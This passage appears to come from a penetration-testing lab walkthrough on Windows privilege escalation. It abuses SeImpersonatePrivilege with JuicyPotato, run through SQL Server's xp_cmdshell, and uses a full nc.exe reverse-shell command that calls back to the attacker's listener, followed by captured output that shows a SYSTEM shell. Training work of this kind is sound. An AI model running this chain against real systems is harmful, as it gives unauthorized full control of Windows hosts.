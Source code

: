 The command `whoami /priv` confirms that [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) is listed. This privilege can be used to impersonate a privileged account such as `NT AUTHORITY\SYSTEM`. [JuicyPotato](https://github.com/ohpe/juicy-potato) can be used to exploit the `SeImpersonate` or `SeAssignPrimaryToken` privileges via DCOM/NTLM reflection abuse.

### **Escalating Privileges Using JuicyPotato**

To escalate privileges using these rights, let's first download the `JuicyPotato.exe` binary and upload this and `nc.exe` to the target server. Next, stand up a Netcat listener on port 8443, and execute the command below where `-l` is the COM server listening port, `-p` is the program to launch (cmd.exe), `-a` is the argument passed to cmd.exe, and `-t` is the `createprocess` call. Below, we are telling the tool to try both the [CreateProcessWithTokenW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw) and [CreateProcessAsUser](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera) functions, which need `SeImpersonate` or `SeAssignPrimaryToken` privileges respectively.

```shell-session
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *

output                                                                             

--------------------------------------------------------------------------------   

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 53375                               
                                                                            
[+] authresult 0                                                                   
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM                                                                                                    
[+] CreateProcessWithTokenW OK                                                     
[+] calling 0x000000000088ce08
```

### **Catching SYSTEM Shell**

This completes successfully, and a shell as `NT AUTHORITY\SYSTEM` is received.

```shell-session
$ sudo nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 50332
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami

whoami
nt authority\system


C:\Windows\system32>hostname

hostname
WINLPE-SRV01
```
